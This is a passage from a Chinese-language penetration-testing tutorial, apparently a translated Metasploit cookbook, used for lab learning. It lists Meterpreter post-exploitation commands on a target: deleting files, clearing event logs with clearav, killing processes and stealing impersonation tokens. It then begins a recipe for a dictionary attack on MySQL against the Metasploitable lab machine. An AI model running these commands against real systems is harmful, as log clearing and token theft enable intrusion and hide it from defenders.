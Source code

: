 5.  删除目标系统中的文件。

    ```
    del exploited.docx 
    ```
    
6.  清除目标系统中的事件日志。

    ```
    clearav 
    ```
    
7.  展示运行进程的列表。

    ```
    ps
    ```
    
8.  杀掉受害者系统的指定进程，使用`kill [pid]`语法。

    ```
    kill 6353
    ```
    
9.  尝试偷取目标系统上的模拟令牌。

    ```
    steal_token 
    ```
    
### 工作原理

我们以通过 Armitage，MSFCLI 或 MSFCONSOLE 预先建立的 Meterpreter 会话来开始。之后我们在目标机器上运行了多种命令。

### 更多

当我们对基于 Linux 主机使用 Meterpreter 的时候，我们能够在它上面运行 Linux 命令，就像我们操作这台机器那样。

## 6.6 Metasploitable MySQL

这个秘籍中，我们会探索如何使用 Metasploit 来攻击 MySQL 数据库服务器，使用 MySQL 扫描器模块。MySQL 是许多网站平台的选择，包括 Drupal 和 Wordpress，许多网站当前正在使用 MySQL 数据库服务器。这会使它们更容易成为 Metasploitable MySQL 攻击的目标。

### 准备

需要满足下列要求：

+   内部网络的连接。

+   运行在渗透环境中的 Metasploitable 。

+   用于执行字典攻击的单词列表。

### 操作步骤

让我们通过打开终端窗口来开始  MySQL 攻击：

1.  打开终端窗口。
